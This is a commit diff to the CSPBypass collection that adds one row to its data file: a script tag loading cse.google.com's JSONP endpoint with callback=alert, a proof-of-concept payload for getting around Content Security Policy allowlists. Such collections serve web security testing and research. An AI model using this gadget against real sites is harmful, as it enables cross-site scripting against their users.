

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added cse.google.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 41: cse.google.com | <script src="https://cse.google.com/cse/element/v1?cx=000470283453218169915:hcrzdwsiwrc&callback=alert"></script>
```
